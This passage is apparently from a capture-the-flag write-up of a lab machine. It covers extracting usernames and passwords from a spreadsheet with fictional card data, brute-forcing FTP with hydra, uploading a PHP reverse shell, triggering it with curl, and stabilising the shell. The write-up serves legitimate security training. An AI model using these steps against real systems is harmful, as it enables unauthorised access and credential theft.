 ```

# iterating through rows 
data = []
for f in sheet.iter_rows(values_only=True):
	print(f)
	f_user_list.write(f"{f[1]}\n")
	f_pass_list.write(f"{f[2]}\n")

f_user_list.close()
f_pass_list.close()

print("\nFiles created!")
```

**Output:**

```
('Customer Name', 'Username', 'Password', 'Credit card number', 'CVC')
('Par. A. Doxx', 'paradox', 'ShibesAreGreat123', '4111 1111 4555 1142', 432)
('0day Montgomery', '0day', 'OllieIsTheBestDog', '5555 3412 4444 1115', 642)
('Muir Land', 'muirlandoracle', 'A11D0gsAreAw3s0me', '5103 2219 1119 9245', 737)

```

There should be now two new files in the current dir... *user_list.txt* and *pass_list.txt*. Lets try this to attack ssh.. It failed.... Hmm FTP maybe?

**Command:** `hydra -L user_list.txt -P pass_list.txt ftp://10.10.28.183`

**Output:** `[21][ftp] host: 10.10.28.183   login: paradox   password: ShibesAreGreat123`

We got ourselves ftp creds. Lets login and look around. Nothing here!... Can I upload file to this?

Let's try: `put reverse-shell.php`

**NOTE TO SELF: Make sure you are in the directory on local machine where your file to be uploaded is. Otherwise it gives 503 error**

`put ~/script/reverse-shell.php` : *Does not work*  

`put reverse-shell.php` : *works when ftp is executed from ~/script/ directory*


## Web-Flag

After putting the reverse shell just need to call that using curl or maybe visiting the address using the browser.

`curl 10.10.94.33/reverse-shell.php`

This should result in providing a rev shell. Lets stablize it using the following commands:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
CTRL+z
stty raw -echo
fg
xterm=256-xtermcolor
```
